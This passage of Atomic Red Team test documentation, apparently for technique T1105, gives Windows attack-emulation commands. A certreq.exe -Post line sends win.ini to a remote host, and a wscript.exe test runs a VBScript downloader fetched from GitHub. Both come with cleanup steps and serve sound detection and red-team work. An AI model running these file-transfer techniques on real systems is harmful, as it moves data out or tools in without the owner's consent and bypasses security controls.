 
#### Attack Commands: Run with `command_prompt`! 


```cmd
certreq.exe -Post -config #{remote_file} c:\windows\win.ini #{local_path}
```

#### Cleanup Commands:
```cmd
del #{local_path} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #26 - Download a file using wscript
Use wscript to run a local VisualBasic file to download a remote file

**Supported Platforms:** Windows


**auto_generated_guid:** 97116a3f-efac-4b26-8336-b9cb18c45188





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vbscript_file | Full path to the VisualBasic downloading the file | string | PathToAtomicsFolder&#92;T1105&#92;src&#92;T1105-download-file.vbs|


#### Attack Commands: Run with `command_prompt`! 


```cmd
wscript.exe "#{vbscript_file}"
```

#### Cleanup Commands:
```cmd
del Atomic-License.txt >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: #{vbscript_file} must be exist on system.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{vbscript_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{vbscript_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1105/src/T1105-download-file.vbs" -OutFile "#{vbscript_file}"
```
